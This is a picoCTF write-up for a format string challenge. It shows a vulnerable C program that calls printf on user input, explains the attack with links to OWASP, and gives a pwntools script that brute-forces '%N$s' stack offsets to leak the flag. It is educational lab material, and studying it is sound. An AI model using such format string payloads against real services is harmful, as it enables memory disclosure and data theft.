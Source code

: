 ```yaml
---
title: "pico - Fessemisk eksempel writeup"
categories: pico
tags: web
header:
    overlay_image: https://images.unsplash.com/photo-1519708227418-c8fd9a32b7a2?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=1470&q=80
    overlay_filter: 0.5
    teaser: https://images.unsplash.com/photo-1519708227418-c8fd9a32b7a2?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=1470&q=80
tagline: "Dette er et eksempel på en post med custom forfatter"
read_time: true
published: true
toc: true
author: Julian Halsøy
---
```


## Description
Story telling class 1/2  
I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/123/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/123/vuln.c). And connect with it using:  
`nc saturn.picoctf.net PORT`

## Vulnerable code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story); 
   printf("Here's a story - \n");
   printf(story); // Will print whatever we want, NOT GOOD!!
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```

## What is a format string vulnerability?
[OWASP - Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)  
[Exploiting format string - Stanford](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)  
[LiveOverflow - Format String Exploit bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4)  

In short the format string vulnerability lets us print and write information from the stack.

**OWASP extract:**   
> Below are some format parameters which can be used and their consequences:
> * ”%x” Read data from the stack
> * ”%s” Read character strings from the process’ memory
> * ”%n” Write an integer to locations in the process’ memory

**Example:**    
```c
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
    printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```

## Solution 
In the vulnerable code, the flag is placed on the stack just under the input buffer: 

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];
```
We can send `%1$s` to the program to view the first parameter on the stack. We will use this to brute force the location of the flag and print it.

**Exploit:**  
```python
from pwn import *

host, port = "saturn.picoctf.net", 55904

# Create remote or local process based on CLI
def new_process():
    if args.LOCAL:
        return process("./vuln")
    else:
        return remote(host, port)


# Brute force location of flag on the stack
with context.quiet:
    for i in range(30):
        p = new_process()
        p.recvuntil(b">>")
        p.sendline("%" + str(i) + "$s")
        p.recvuntil("\n")
        out = p.recvall()
        try:
            flag = out.decode()
        except UnicodeDecodeError:
            pass
        if "CTF{" in flag:
            print(f"pico{flag}")
```
### Flag
`picoCTF{L34k1ng_Fl4g_0ff_St4ck_6aea3c7c}`